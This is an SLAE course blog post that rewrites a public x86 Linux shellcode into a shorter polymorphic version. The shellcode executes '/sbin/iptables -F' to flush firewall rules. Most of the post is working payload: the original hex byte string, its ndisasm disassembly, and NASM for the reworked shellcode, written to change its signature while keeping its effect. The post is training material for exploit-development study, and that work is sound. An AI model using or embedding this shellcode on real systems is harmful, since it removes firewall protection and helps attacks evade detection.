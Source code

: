 ```yaml
---
layout: post
title: SLAE 6.2 - Shell-Storm Polymorphism - iptables -F
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

The 2nd piece of shellcode we will try to create a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-361.php
The original length is 58 bytes, meaning we have up to 87 bytes (no more than 150%).

Let's take a look at the shellcode that is listed on shellstorm and lets put this through ndisasm just to be sure.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
We have a jump-call-pop to get the string we will be using. the #'s are replaced with nulls.  Looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of the copying of the strings and just use our already saved reference.\
We can jmp-call-pop into ebx to have our path to iptables already stored in the proper register.\
Then we can 0 out edx with cdq and move a null byte into the # location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next we set up our args struct.  The original shellcode copies the string to a location after the original string and sets it to ecx then uses an address of the already used null byte for edx.\
We can just skip all these steps and use our original string and push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.\
This is using the same strategy a normal stack based execve call would use.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.\
Also note that in the string variable above that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into eax and interrupt (int 0x80).  We can use edx since it is null to mov into eax just for a little variation, then mov 0xb into al and make our call
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  Our objdump seems to be missing a few bytes in the string from /sbin/iptables.   I had to go in a manuall insert the sb from sbin and the a from iptables, then it was successful.\
It has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```
